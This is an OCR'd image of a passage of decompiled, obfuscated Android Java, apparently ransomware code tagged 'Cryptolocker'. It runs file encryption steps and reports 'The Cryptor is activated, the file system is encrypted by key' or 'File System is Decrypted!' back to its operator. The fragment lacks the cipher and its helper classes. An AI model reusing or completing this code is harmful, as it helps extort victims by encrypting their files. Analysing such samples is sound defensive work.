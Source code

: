 ```java
        this.a.a("Cryptolocker", "2");
    } catch (Exception unused) {
    }
    try {
        a(file);
        this.a.a("Cryptolocker", "3");
    } catch (Exception unused2) {
    }
    try {
        a(file2);
        this.a.a("Cryptolocker", "4");
    } catch (Exception unused3) {
    }
    try {
        a(file3);
        this.a.a("Cryptolocker", "5");
    } catch (Exception unused4) {
    }
    try {
        a(file4);
        this.a.a("Cryptolocker", "6");
    } catch (Exception unused5) {
    }
    //解密
    if (!this.b.equals("crypt")) {
        if (this.b.equals("decrypt")) {
            b bVar2 = this.a;
            StringBuilder sb = new StringBuilder();
            sb.append("p=");
            b bVar3 = this.a;
            sb.append(bVar3.c(this.a.q(this) + "|File System is Decrypted!|"));
            bVar2.b(this, "4", sb.toString());
            bVar = this.a;
            str = "cryptfile";
            str2 = "false";
        }
        this.a.d(this, "status", "");
        this.a.d(this, "key", "");
    }
    b bVar4 = this.a;
    StringBuilder sb2 = new StringBuilder();
    sb2.append("p=");
    b bVar5 = this.a;
    sb2.append(bVar5.c(this.a.q(this) + "|The Cryptor is activated, the file system is encrypted by key: " + this.c + "|"));
    bVar4.b(this, "4", sb2.toString());
    bVar = this.a;
    str = "cryptfile";
    str2 = "true";
    bVar.d(this, str, str2);
    this.a.d(this, "status", "");
    this.a.d(this, "key", "");
}
```
